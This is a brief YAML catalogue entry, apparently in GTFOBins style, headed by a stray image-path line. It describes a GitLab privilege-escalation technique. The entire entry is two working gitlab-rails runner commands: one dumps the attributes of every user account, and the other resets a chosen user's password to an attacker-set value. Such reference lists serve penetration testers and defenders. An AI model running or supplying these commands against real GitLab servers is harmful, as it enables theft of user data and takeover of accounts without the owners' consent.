 ```yaml
---
functions:
  privilege-escalation:
    - description: Simple Gitlab Privesc Technique
      code: |
        Dump the Database:
        gitlab-rails runner 'User.where.not(username: "peasssssssss").each { |u| pp u.attributes }'

        Change Passwords:
        gitlab-rails runner 'user = User.find_by(username: "dude"); user.password = "adminpassword"; user.password_confirmation = "adminpassword"; user.save!'
---
```

